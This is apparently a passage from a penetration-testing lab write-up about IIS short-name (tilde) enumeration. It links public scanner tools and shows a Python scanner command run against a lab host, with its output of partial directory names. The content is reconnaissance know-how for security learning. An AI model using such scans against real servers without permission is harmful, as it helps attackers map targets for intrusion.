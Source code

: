 
This doesn’t work for all directories / files. It doesn’t find `/admin`,
likely due to permissions. I found a couple tools to do the brute force here.
[This tool](https://github.com/irsdl/IIS-ShortName-Scanner) is the one
associated with the research paper above, but it’s in Java, so I kept looking
and found [this Python
scanner](https://github.com/lijiejie/IIS_shortname_Scanner). When running it
on the root directory, it finds some of the stuff in it:

    
    
    root@kali# python /opt/IIS_shortname_Scanner/iis_shortname_Scan.py http://10.13.38.11/
    Server is vulnerable, please wait, scanning...
    [+] /d~1.*      [scan in progress]
    [+] /n~1.*      [scan in progress] 
    [+] /t~1.*      [scan in progress]
    [+] /w~1.*      [scan in progress]
    [+] /ds~1.*     [scan in progress]
    [+] /ne~1.*     [scan in progress]
    [+] /te~1.*     [scan in progress]    
    [+] /tr~1.*     [scan in progress]
    [+] /we~1.*     [scan in progress]     
    [+] /ds_~1.*    [scan in progress] 
    [+] /new~1.*    [scan in progress]
    [+] /tem~1.*    [scan in progress]
    [+] /tra~1.*    [scan in progress]
    [+] /web~1.*    [scan in progress]
    [+] /ds_s~1.*   [scan in progress]
    [+] /newf~1.*   [scan in progress]
    [+] /temp~1.*   [scan in progress] 
    [+] /tras~1.*   [scan in progress]
    [+] /ds_st~1.*  [scan in progress]
    [+] /newfo~1.*  [scan in progress]          
    [+] /templ~1.*  [scan in progress]
    [+] /trash~1.*  [scan in progress]
    [+] /ds_sto~1.* [scan in progress]
    [+] /newfol~1.* [scan in progress]
    [+] /templa~1.* [scan in progress]
    [+] /trashe~1.* [scan in progress]
    [+] /ds_sto~1   [scan in progress]
    [+] Directory /ds_sto~1 [Done]
    [+] /newfol~1   [scan in progress]
    [+] Directory /newfol~1 [Done]
    [+] /templa~1   [scan in progress]
    [+] Directory /templa~1 [Done]
    [+] /trashe~1   [scan in progress]
    [+] Directory /trashe~1 [Done]
    ----------------------------------------------------------------
    Dir:  /ds_sto~1
    Dir:  /newfol~1
    Dir:  /templa~1
    Dir:  /trashe~1
    ----------------------------------------------------------------
    4 Directories, 0 Files found in total
    Note that * is a wildcard, matches any character zero or more times.
    